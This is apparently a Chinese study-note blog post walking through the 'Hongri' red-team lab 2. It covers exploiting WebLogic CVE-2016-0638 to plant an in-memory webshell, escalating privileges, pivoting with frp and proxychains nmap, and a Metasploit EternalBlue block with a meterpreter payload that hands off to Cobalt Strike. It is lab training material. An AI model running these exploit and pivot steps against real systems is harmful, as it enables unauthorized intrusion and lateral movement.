 ```yaml
---
title: 红日靶场二-学习笔记
date: 2023-06-24 21:11 +0800
categories: [SRC,渗透]
tags: [红日,渗透]
media_subpath: /assets/images/hongrier
---
```






https://pan.baidu.com/s/1DtOdje33JeoF8kcU6LBqSw?pwd=g5r4

![](WEBRESOURCEcac433cc9d9d4bddbcf1dc770267536b.png)

dc 区段1

pc 区段2 区段1

web nat 区段1



## 外网

![](WEBRESOURCEab16919d3ad044c3b1f3377abe7eef3c.png)



ms17010 是打不通的

![](WEBRESOURCE358953f4253349c9aeb086fd11ae2ffa.png)

有服务要手动起来，，，，

mssql 1qaz@WSX

登录启动 weblogic

![](WEBRESOURCE652d91cd4b6e46b5978bed38fee1670d.png)

疑似存在漏洞

![](WEBRESOURCEc2fb0a9031a2477683e9590c17f6ec10.png)

存在cve20160638

![](WEBRESOURCEfd9e7167662b4f27a4a8032159c0a6ec.png)

直接注入内存马

![](WEBRESOURCEebdb94b4e829406cbcca711a4b5ebead.png)



使用哥斯拉连接成功

![](WEBRESOURCE051aabdc15dd4165ae22e8bc2ed8ed84.png)

我们现在是低权

![](WEBRESOURCE313218577e034433909833ec526c0ea4.png)



靶机里面有360，但是cs直接生成的检测不出来。（搞了半天免杀还失败了【晕】

尝试提权，获取到了 system

![](WEBRESOURCE0f0e9e2ca292428793df11667920f9b2.png)

ipconfig /displaydns

查看dns缓存

pc icmp探测是不行的，dns才能探测到

![](WEBRESOURCE9da0abf566044da3af2aefe625131d6f.png)

上传运行 frp（过程略）

![](WEBRESOURCEedae8e64595647ee9ef8ec1ceae7ede4.png)

端口扫描 可以用插件或者

proxychains nmap -A -F -sT -Pn 10.10.10.10

![](WEBRESOURCE5ea6485890b04af0a0980b3880088993.png)



## 第二层上线cs

17010打进去用frp代理

```
set Proxies socks5:127.0.0.1:60000
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp
set rhost 10.10.10.10
set lport 4444
run
```

![](WEBRESOURCE311e72c64e7c4f0b8236de96b98c24f2.png)

现在跳板机上面监听端口，



![](WEBRESOURCEaa3c6064986d4247ad7066945431eff3.png)

配置一个端口就可以，

![](WEBRESOURCE72138e1fb4dc41d59c92e88137d3d275.png)

生成shell，监听跳板机监听的端口，cs会自动转发流量

![](WEBRESOURCEaa01799f717b4c398e19d2b535336349.png)

通过上面msf 获取的system，我们直接木马即可

![](WEBRESOURCE6e22de1f752f4f358eeecba4a5bcbbb0.png)

cs 会同步 上线

![](WEBRESOURCE173106f5c4e04729b918e98ae8aa75b4.png)



![](WEBRESOURCEa64157a3097b4d56ba9a61bf44412260.png)

